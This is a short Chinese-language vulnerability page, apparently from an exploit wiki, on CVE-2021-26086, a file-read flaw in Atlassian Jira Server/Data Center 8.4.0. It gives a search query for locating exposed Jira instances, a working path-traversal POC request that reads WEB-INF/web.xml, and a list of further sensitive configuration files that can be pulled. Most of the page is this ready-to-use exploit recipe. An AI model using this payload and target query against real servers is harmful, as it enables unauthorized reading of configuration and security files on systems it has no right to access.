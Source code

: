 # Atlassian Jira cfx 任意文件读取漏洞 CVE-2021-26086

## 漏洞描述

Atlassian Jira Server/Data Center 8.4.0 - Limited Remote File Read/Include

## 漏洞影响

<a-checkbox checked>Atlassian Jira Server/Data Center 8.4.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ATLASSIAN-JIRA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1634610793448-229e5b0d-d6d4-4de1-824a-b9d3a3446651-20220313163314705.png)

验证POC

```php
/s/cfx/_/;/WEB-INF/web.xml
```

![img](/assets/PeiQi-Wiki/img/1634610826119-05c0b0fe-2266-46bb-8b2a-9997824e6724-20220313163314907.png)

可读取敏感配置文件

```php
WEB-INF/web.xml
WEB-INF/decorators.xml
WEB-INF/classes/seraph-config.xml
META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties
META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties
```

